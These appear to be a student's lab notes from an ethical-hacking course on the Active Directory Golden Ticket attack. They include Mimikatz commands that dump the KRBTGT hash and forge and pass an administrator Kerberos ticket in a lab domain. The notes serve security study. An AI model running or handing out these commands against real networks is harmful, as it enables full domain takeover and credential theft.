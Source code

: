 keep in mind that:
the PC passwords (`HYDRA-DC$, SPIDERMAN$...`) -->  are useless to decrypt
=>
focus on the -->  accounts

#### Golden Tickets Attack Overview
read again [[Notes_ETH#Kerberoasting|Kerberoasting]]

when we compromise the:
KeRBeros Ticket Granting Ticket (KRBTGT) account =>   we own the domain
=>
<span style="color:#00b050">we can request</span> -->  any resource or system on the domain

what we want:
a Golden tickets -->  that is a <span style="color:#00b050">complete access to every machine</span> 

we'll use [[Notes_ETH#Mimikatz|Mimikatz]] -->  to retrieve some information  (that we need)
<span style="background:#fff88f">we need:</span>
 - the KRBTGT NTLM hash
 - the domain SID

with these 2 data -->  <span style="color:#00b050">we generate our Golden tickets</span>

<span style="background:#fff88f">after having generated the Golden tickets:</span>
we can use the "pass the ticket attack" -->  to <span style="color:#00b050">utilize the ticket anywhere</span>

with this ticket:
<span style="color:#00b050">we can access every machine</span> <span style="color:#00b050">on the DOMAIN</span>

##### Attack
#AD_tool
turn on THEPUNISHER and Domain Controller
from the Domain Controller -->  install [[cheat#Install mimikatz on victim machine|mimikatz]]
- `mimikatz.exe`
- `privilege::debug`
- `lsadump::lsa /inject /name:krbtgt`    -->  pull down only the kerberos tgt account
  ![[Pasted image 20240304121920.png]]
- open a notepad
- copy the SID and the KRBTGT NTLM hash
- `kerberos::golden /User:Administrator /domain:marvel.local /sid:<copytheSID> /krbtgt:<copytheKRBTGT> /id:500 /ptt`
  `/User:...` -->  can be anything (even a fake account)
  `/id:500` -->  is the admin account
  `/ptt` -->  pass the ticket
  =>
  we are:
  - generating -->  a golden ticket
  - passing it to -->  pass the ticket
                 to use this ticket inside our session (the command line)
                 =>
                 we are going to -->     - open a new terminal
                                     - that has this ticket
                                     - from which we can -->  <span style="color:#00b050">ACCESS ANY PC IN THE </span>
                                                         _<span style="color:#00b050">DOMAIN</span> 
    =>
    ![[Pasted image 20240304122817.png]]
